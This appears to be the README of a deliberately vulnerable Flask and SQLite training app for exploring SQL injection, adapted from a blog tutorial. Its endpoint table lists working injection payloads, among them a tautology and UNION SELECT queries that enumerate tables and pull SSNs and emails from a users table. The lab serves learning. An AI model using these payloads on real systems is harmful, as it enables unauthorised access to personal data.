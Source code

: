 # Flask Vulnerable to SQL Injection 💉🔓

[![Code style: black](https://img.shields.io/badge/code%20style-black-000000.svg)](https://github.com/psf/black)
[![try/except style: tryceratops](https://img.shields.io/badge/try%2Fexcept%20style-tryceratops%20%F0%9F%A6%96%E2%9C%A8-black)](https://github.com/guilatrova/tryceratops)
[![Open in Visual Studio Code](https://open.vscode.dev/badges/open-in-vscode.svg)](https://open.vscode.dev/guilatrova/flask-sqlinjection-vulnerable)

---
This is a modified version of a demonstration from https://blog.guilatrova.dev/how-sql-injection-attack-works-with-examples/.


The application should start on its own, but if you need to restart the application, use this command:

`python src/main.py`

If you make changes to the code, kill the application with `Ctrl+C`, then restart with `python src/main.py`

---

The purpose of this repository is to allow us to explore an API vulnerable to SQL Injection (using Python, Flask, and SQLite).



[![Open in Gitpod](https://gitpod.io/button/open-in-gitpod.svg)](https://gitpod.io/#https://github.com/guilatrova/flask-sqlinjection-vulnerable/)

You can play with the following endpoints (considering you're running on localhost):

| Endpoint                                                                                                                                                                                                                                                                                                                      | Description                                      |
| ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------ |
| [/contest/bob@example.com](http://localhost:5000/contest/bob@example.com)                                                                                                                                                                                                                                                 | Expected usage                                   |
| [/contest/' or '1' = '1](http://localhost:5000/contest/'%20or%20'1'%20=%20'1)                                                                                                                                                                                                                                           | Vulnerability proof                              |
| [/contest/' AND '1' = '2' UNION SELECT name FROM sqlite_master WHERE type ='table' AND name NOT LIKE 'sqlite_%](http://localhost:5000/contest/'%20AND%20'1'%20=%20'2'%20UNION%20SELECT%20name%20FROM%20sqlite_master%20WHERE%20type%20='table'%20AND%20name%20NOT%20LIKE%20'sqlite_%)                                   | Breaks server                                    |
| [/contest/' AND '1' = '2' UNION SELECT 'table_name', name FROM sqlite_master WHERE type = 'table' AND name NOT LIKE 'sqlite_%](http://localhost:5000/contest/'%20AND%20'1'%20=%20'2'%20UNION%20SELECT%20'table_name',%20name%20FROM%20sqlite_master%20WHERE%20type%20=%20'table'%20AND%20name%20NOT%20LIKE%20'sqlite_%) | Queries all tables and fixes broken server       |
| [/contest/' AND '1' = '2' UNION SELECT ssn, email FROM users; --](http://localhost:5000/contest/'%20AND%20'1'%20=%20'2'%20UNION%20SELECT%20ssn,%20email%20FROM%20users;%20--)                                                                                                                                           | Use union select to query data from other tables |
